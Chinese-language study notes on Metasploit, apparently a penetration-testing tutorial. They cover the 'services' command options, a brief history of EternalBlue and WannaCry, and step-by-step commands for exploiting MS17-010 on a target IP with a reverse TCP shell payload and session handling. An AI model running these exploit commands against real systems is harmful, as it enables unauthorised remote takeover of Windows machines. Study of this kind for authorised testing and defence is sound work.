     service             //查看端口信息
        -a,--add          Add the services instead of searching
        -d,--delete       Delete the services instead of searching
        -c <col1,col2>    Only show the given columns
        -h,--help         Show this help information
        -s <name>         Name of the service to add
        -p <port>         Search for a list of ports
            -p 1-1000
        -r <protocol>     Protocol type of the service being added [tcp|udp]
        -u,--up           Only show services which are up
        -o <file>         Send output to a file in csv format
        -O <column>       Order rows by specified column number
        -R,--rhosts       Set RHOSTS from the results of the search
        -S,--search       Search string to filter by
        -U,--update       Update data for existing service




## 永恒之蓝

永恒之蓝是指2017年4月14日晚，黑客团体Shadow Brokers（影子经纪人）公布一大批网络攻击工具，其中包含“永恒之蓝”工具，“永恒之蓝”利用Windows系统的SMB漏洞可以获取系统最高权限。
5月12日，不法分子通过改造“永恒之蓝”制作了wannacry勒索病毒，英国、俄罗斯、整个欧洲以及中国国内多个高校校内网、大型企业内网和政府机构专网中招，被勒索支付高额赎金才能解密恢复文件。
ms17-010

use auxiliary/admin/smb/ms17_010_command
show options
set RHOSTS 192.168.111.111
show options
run 或者 exploit    开始进行攻击


use exploit/windows/smb/ms17_010
set RHOSTS  192.168.111.111
set payload windows/x64/shell/reverse_tcp
show options
set LHOST 本机ip
run

chcp 65001

exploit -j          完成后放在后台
sessions
sessions -i 2

background          保存会话到后台


chcp
    Changes the active console code page. If used without parameters, chcp displays the number of the active console code page.

    Code page   Country/region or language
    437         United States 是美国英语  
    850         Multilingual (Latin I)
    852         Slavic (Latin II)
    855         Cyrillic (Russian)
    857         Turkish
    860         Portuguese
    861         Icelandic
    863         Canadian-French
    865         Nordic
    866         Russian
    869         Modern Greek
    936         Chinese
    936         默认的GBK
    65001       UTF-8
